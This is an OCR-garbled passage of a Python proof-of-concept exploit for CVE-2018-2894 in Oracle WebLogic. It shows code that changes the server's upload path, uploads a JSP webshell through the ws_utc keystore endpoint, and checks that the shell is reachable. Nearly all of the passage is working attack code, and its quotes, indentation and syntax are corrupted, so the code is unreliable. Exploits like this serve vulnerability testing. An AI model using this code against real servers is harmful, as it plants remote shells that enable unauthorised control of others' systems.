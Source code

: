 ```
“BasicConfigOptions.proxyHost”: “”,

“BasicConfigOptions.proxyPort”: “80”}

request = requests.post(host + “/ws_utc/resources/setting/options”, data=data, headers=headers)

if “successfully” in request.content:

return True

else:

print("[-] Change New Upload Path failed")

exit(request.content)

def upload_webshell(host, uri):

set_new_upload_path(host, get_new_work_path(host))

files = {

“ks_edit_mode”: “false”,

“ks_password_front”: password,

“ks_password_changed”: “true”,

“ks_filename”: (“360sglab.jsp”, upload_content)

}

```
request = requests.post(host + uri, files=files)
response = request.text
match = re.findall("&lt;id&gt;(.*?)&lt;/id&gt;", response)
if match:
    tid = match[-1]
    shell_path = host + "/ws_utc/css/config/keystore/" + str(tid) + "_360sglab.jsp"
    if upload_content in requests.get(shell_path, headers=headers).content:
        print("[+] {} exists CVE-2018-2894".format(host))
        print("[+] Check URL: {} ".format(shell_path))
    else:
        print("[-] {}  don't exists CVE-2018-2894".format(host))
else:
    print("[-] {}  don't exists CVE-2018-2894".format(host)) 
```

if **name** == “**main**”:

start = time.time()

password = “360sglab”

url = “/ws_utc/resources/setting/keystore”

parser = argparse.ArgumentParser()

parser.add_argument("-t", dest=‘target’, default=“[http://127.0.0.1:7001](http://127.0.0.1:7001)”, type=str,

help=“target, such as: [http://example.com:7001](http://example.com:7001)”)

```